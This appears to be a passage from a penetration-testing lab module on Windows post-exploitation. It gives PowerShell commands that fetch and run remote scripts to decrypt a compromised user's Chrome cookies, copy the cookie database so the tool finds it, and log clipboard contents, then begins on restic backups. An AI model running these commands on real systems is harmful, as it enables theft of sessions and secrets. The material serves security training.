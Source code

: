 To get the cookie value, we'll need to perform a decryption routine from the session of the user we compromised. Thankfully, a tool [SharpChromium](https://github.com/djhohnstein/SharpChromium) does what we need. It connects to the current user SQLite cookie database, decrypts the cookie value, and presents the result in JSON format.

```powershell
PS C:\htb> IEX(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/S3cur3Th1sSh1t/PowerSh
arpPack/master/PowerSharpBinaries/Invoke-SharpChromium.ps1')
PS C:\htb> Invoke-SharpChromium -Command "cookies slack.com"
```

We got an error because the cookie file path that contains the database is hardcoded in [SharpChromium](https://github.com/djhohnstein/SharpChromium/blob/master/ChromiumCredentialManager.cs#L47), and the current version of Chrome uses a different location.

`SharpChromium` is looking for a file in `%LOCALAPPDATA%\Google\Chrome\User Data\Default\Cookies`, but the actual file is located in `%LOCALAPPDATA%\Google\Chrome\User Data\Default\Network\Cookies` with the following command we will copy the file to the location SharpChromium is expecting.

```powershell
PS C:\htb> copy "$env:LOCALAPPDATA\Google\Chrome\User Data\Default\Network\Cookies" "$env:LOCALAPPDATA\Google\Chrome\User Data\Default\Cookies"
```

#### Clipboard

We can use the [Invoke-Clipboard](https://github.com/inguardians/Invoke-Clipboard/blob/master/Invoke-Clipboard.ps1) script to extract user clipboard data. Start the logger by issuing the command below.

```powershell
PS C:\htb> IEX(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/inguardians/Invoke-Clipboard/master/Invoke-Clipboard.ps1')
PS C:\htb> Invoke-ClipboardLogger
```

The script will start to monitor for entries in the clipboard and present them in the PowerShell session. We need to be patient and wait until we capture sensitive information.

#### Attacking Backup Servers - restic 0.13.1

##### restic - Initialize Backup Directory

```powershell
PS C:\htb> mkdir E:\restic2; restic.exe -r E:\restic2 init
```

##### restic - Back up a Directory

`Restic` checks if the environment variable `RESTIC_PASSWORD` is set and uses its content as the password for the repository. If this variable is not set, it will ask for the password to initialize the repository and for any other operation in this repository.

```powershell
PS C:\htb> $env:RESTIC_PASSWORD = 'Password'
PS C:\htb> restic.exe -r E:\restic2\ backup C:\SampleFolder
```

